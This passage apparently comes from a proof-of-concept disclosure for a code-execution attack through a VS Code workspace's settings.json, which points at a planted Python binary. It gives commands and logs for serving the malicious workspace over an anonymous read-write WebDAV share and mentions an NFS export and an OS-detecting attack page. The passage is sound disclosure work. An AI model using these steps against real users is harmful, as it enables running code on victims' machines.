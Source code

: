 Set up the WebDAV server (Note: This allows anonymous RW access and so is not safe on hostile networks):

```
% mkdir webdavroot

% unzip -d webdavroot pythonpath_poc.zip                                                                                                                                                                                
Archive:  pythonpath_poc.zip
   creating: webdavroot/pythonpath_poc/
   creating: webdavroot/pythonpath_poc/.vscode/
  inflating: webdavroot/pythonpath_poc/.vscode/settings.json
   creating: webdavroot/pythonpath_poc/.vscode/zzzz/
  inflating: webdavroot/pythonpath_poc/.vscode/zzzz/python.exe
  inflating: webdavroot/pythonpath_poc/.vscode/zzzz/python

% ~/.local/bin/wsgidav --auth=anonymous --port=8888 --host=0.0.0.0 --root=$(pwd)/webdavroot     
Running without configuration file.
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  WsgiDAV/3.0.0 Python/2.7.16 Linux-4.9.0-9-amd64-x86_64-with-debian-10.0
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Lock manager:      LockManager(LockStorageDict)
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Property manager:  None
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Domain controller: SimpleDomainController()
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :  Registered DAV providers by route:
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :    - '/:dir_browser': FilesystemProvider for path '/home/justin/.local/lib/python2.7/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
2019-08-03 17:28:36.479 - <139978409490240> wsgidav.wsgidav_app         INFO    :    - '/': FilesystemProvider for path '/tmp/tmp.tDil7a0yDS/webdavroot' (Read-Write) (anonymous)
2019-08-03 17:28:36.480 - <139978409490240> wsgidav.wsgidav_app         WARNING :  Basic authentication is enabled: It is highly recommended to enable SSL.
2019-08-03 17:28:36.480 - <139978409490240> wsgidav.wsgidav_app         WARNING :  Share '/:dir_browser' will allow anonymous read access.
2019-08-03 17:28:36.480 - <139978409490240> wsgidav.wsgidav_app         WARNING :  Share '/' will allow anonymous write access.
2019-08-03 17:28:36.480 - <139978409490240> wsgidav                     WARNING :  Could not import lxml: using xml instead (up to 10% slower). Consider `pip install lxml`(see https://pypi.python.org/pypi/lxml).
2019-08-03 17:28:36.581 - <139978409490240> wsgidav                     INFO    :  Running WsgiDAV/3.0.0 Cheroot/6.5.5 Python/2.7.16
2019-08-03 17:28:36.581 - <139978409490240> wsgidav                     INFO    :  Serving on http://0.0.0.0:8888 ...
```

Set up the NFS server. Unzip `pythonpath_poc.zip` within an export named `/nfs/pub`.

Set up a HTML page to detect the OS and offer to launch an appropriate attack:
